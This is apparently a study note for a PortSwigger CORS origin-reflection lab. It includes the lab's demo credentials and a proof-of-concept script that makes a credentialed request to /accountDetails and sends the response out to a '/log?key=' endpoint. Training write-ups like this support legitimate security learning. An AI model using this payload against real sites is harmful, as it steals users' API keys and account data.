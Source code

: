 ```yaml
---
tags:
  - APPRENTICE
Link:
  - "[[CORS]]"
External Link:
  - https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
---
```


# CORS vulnerability with basic origin reflection
---

**Target Goal** - Exploit the CORS misconfiguration to retrieve the administrator's API key

**Creds** - wiener : peter

**Analysis:**

**Testing for CORS misconfigurations:**
1. Change the origin to an arbitrary value - True

**POC**:

```html
<script>
	var url = "http://YOUR-LAB-ID.web-security-academy.net"
	var req = new XMLHttpRequest();
	req.onreadystatechange = reqListener;
	req.open('GET', url + '/accountDetails', true);
	req.withCredentials = true;
	req.send(null);
	
	
	function reqListener(){
		if(req.readyState == XMLHttpRequest.DONE){
			fetch("/log?key=" + req.responseText)
		}
	}

</script>
```






































